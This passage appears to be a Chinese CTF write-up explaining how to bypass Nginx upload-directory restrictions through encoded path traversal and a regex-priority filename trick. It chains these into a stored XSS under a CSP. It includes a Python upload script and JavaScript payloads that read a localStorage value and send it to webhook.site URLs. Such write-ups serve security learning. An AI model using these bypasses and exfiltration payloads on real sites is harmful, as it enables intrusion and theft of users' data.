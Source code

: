 有Nginx限制：

```none
# no direct access to the upload directory
location /files/upload/ {
    deny all;
}
```

但这个限制可以通过`/files/..%2fupload`绕过。

这个URI在绕过Nginx的ACL后，在r.Static中会先提取出/files后面的部分，对其进行清洗（去除../），然后再和/files拼接后用os读取文件，因此最终等价于/files/upload/…

另一种绕过ACL的方法：

nginx配置中还有一条：

```none
location ~ \.(css|js)$ {...
```

里面没有限制访问，而且正则匹配优先级高于前缀匹配，只要满足这条规则就可以绕过ACL，将上传的文件后缀名改为**.js\\n**即可符合（js文件和html文件都用这个后缀名）

此时需要手动构建multipart/form-data：

```python
url = f'{target}/api/image/upload'
headers = {
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryAAA'
}
filename = 'aaa.js\n'
content = 'location.href = "https://webhook.site/7171f1c0-acc7-450f-a551-434fadcbaeec/?data=" + localStorage.getItem("flag")'
req = [
    '------WebKitFormBoundaryAAA',
    f'Content-Disposition: form-data; name="file"; filename*=utf-8\'cn\'{quote_plus(filename)}',
    'Content-Type: image/png',
    '',
    content,
    f'------WebKitFormBoundaryAAA--'
]
r = s.post(url, headers=headers, data='\r\n'.join(req).encode('utf-8') + b'\r\n')
```


再看XSS的部分，有CSP：`"default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline';"`

所以要先上传一个JavaScript文件，其中用`window.location`来泄露flag：

```none
const flag = localStorage.getItem('flag');
window.location = `https://webhook.site/523daa9a-97a0-49a9-8366-74f8b30dcd23/?data=${flag}`;
```

然后获取js文件UUID和用户UUID，再写一个HTML文件包含这个js文件：

```none
<script src="/files/..%2fupload/965dd803-2a69-4196-af58-9032fda51c6f/2ac5a21d-6d5a-4ac0-90ec-954138cbd8f3.Js"></script>
```
